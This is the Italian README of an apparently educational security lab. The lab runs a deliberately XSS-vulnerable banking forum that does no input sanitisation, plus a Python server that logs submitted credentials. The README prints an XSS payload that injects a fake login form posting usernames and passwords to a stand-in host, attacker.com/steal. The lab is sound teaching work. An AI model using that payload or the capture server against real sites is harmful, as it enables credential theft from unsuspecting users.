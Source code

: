 # Progetto di Sicurezza Informatica: Vulnerabilità XSS e Sniffing

[![Security](https://img.shields.io/badge/domain-Cybersecurity-red)]()
[![Web Security](https://img.shields.io/badge/focus-Web%20Security-orange)]()
[![Penetration Testing](https://img.shields.io/badge/approach-Penetration%20Testing-yellow)]()
[![OWASP](https://img.shields.io/badge/standard-OWASP%20Top%2010-blue)](https://owasp.org/www-project-top-ten/)
[![PHP](https://img.shields.io/badge/PHP-8.0+-777BB4?logo=php)]()
[![Python](https://img.shields.io/badge/Python-3.8+-3776AB?logo=python)]()
[![MySQL](https://img.shields.io/badge/MySQL-8.0-4479A1?logo=mysql)]()
[![Docker](https://img.shields.io/badge/Docker-20.10+-2496ED?logo=docker)]()

## Descrizione del Progetto

Questo progetto dimostra due vulnerabilità comuni nello sviluppo web:
1. **Cross-Site Scripting (XSS)**: Un attacco che permette l'esecuzione di codice JavaScript malevolo nel contesto di un'applicazione web
2. **Sniffing di credenziali**: Un attacco che intercetta e registra dati sensibili inviati tramite form

Il progetto simula un forum bancario vulnerabile a XSS, con un server aggiuntivo che cattura le credenziali inviate tramite un form compromesso.

## Componenti

1. **Servizio Web (Apache/PHP)**
   - Forum bancario vulnerabile a XSS
   - Connessione a database MySQL
   - Nessuna sanificazione degli input/output

2. **Database MySQL**
   - Contiene una tabella `comments` per memorizzare i post del forum

3. **Server di Sniffing (Python)**
   - In ascolto sulla porta 5000
   - Cattura e registra le credenziali inviate via POST
  
## Autori
- Carlo Da Roma
- [Piolo Llanos](https://github.com/pioloLlanos)

## Vulnerabilità Implementate

### 1. Cross-Site Scripting (XSS)
- **Posizione**: Input del commento e visualizzazione nel forum
- **Esempio di payload**:
  ```html
  <script>alert('XSS Attack!')</script>
  ```
  ```html
  <script>
    document.write('<form action="http://attacker.com/steal" method="post">' +
                   '<input type="text" name="username" placeholder="Username">' +
                   '<input type="password" name="password" placeholder="Password">' +
                   '<input type="submit" value="Submit"></form>');
  </script>
  ```

### 2. Sniffing di Credenziali
- Il server Python (`app.py`) registra tutte le coppie username/password inviate via POST
- I dati vengono salvati in `sniffed.txt`
- Per non far riuscire il pop up ad utenti che hanno già eseguito il login abbiamo deciso di salvare delle variabili interne al browser.

## Configurazione e Avvio

1. **Prerequisiti**:
   - Docker e Docker Compose installati

2. **Avvio dei servizi**:
   ```bash
   docker-compose up --build
   docker-compose ps
   ```

3. **Accesso all'applicazione**:
   - Forum bancario: http://localhost
   - Server di sniffing: http://localhost:5000 (solo per invio dati)

4. **Ripristino**:
   ```bash
   sudo docker-compose down -v
   ```
---

<sub><i>last update 19/06/2025</i></sub>
